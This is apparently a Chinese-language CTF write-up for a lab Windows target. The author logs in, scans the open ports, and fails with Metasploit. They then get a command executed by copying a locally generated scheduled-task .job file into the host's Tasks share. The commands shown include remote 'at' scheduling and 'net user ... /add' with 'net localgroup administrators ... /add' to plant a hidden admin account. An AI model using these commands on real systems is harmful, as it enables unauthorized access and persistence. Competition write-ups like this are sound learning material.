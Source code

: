 ```
alictf:123456

```

直接登录。 ifconfig 看一下， ip 是 172.16.0.1 扫了下端口，就开了 80 445 1025 1723 3389 没什么好想的 3389 肯定上不去，也不太可能是 snmp 直接 smb 那边考虑下，本来想无脑 msf 直接打，结果发现死活不成功，然后看了下官方的 tips 让我们好好看有存在什么文件，发现有两个文件，是 windows 计划任务文件夹下的文件， 即目录为

```
c:\windows\tasks

```

一开始 at 一直不成功，就想说是不是因为没写路径，然后就一直测试

```
at \\172.16.0.1 xx:xx c:\windows\tasks\server.exe

```

妄图执行一个远控，但是屡屡失败，然后看官方的描述

```
为了避免影响他人做题，在服务器上所有操作都不会真实成功的，只会完整记录。

```

考虑既然都不会执行，那要远控干嘛。。所以直接执行命令好了！但是，人生最精彩的就在这个但是，这样执行命令也是不行的！！！那怎么办回归原始，既然这个是个计划任务的文件夹，那我直接把 job 文件复制进去好了，但是其实按理说不行，因为计划任务和注册表有些版本是有关联的，但是比赛嘛，不管那么多了，先本地执行

```
at xx:xx "net user eee password /add && net localgroup administrators eee /add"

```

这样会在 c:\windows\tasks\ 目录生成一个 job 文件，那么我如果把这个文件复制进去是不是就能生成一个计划任务呢？Just do it

```
copy At1.job \\172.16.0.1\\Tasks\

```

复制进去，以防万一我弄了 At2.job 和 At65535.job 然后等待服务器执行！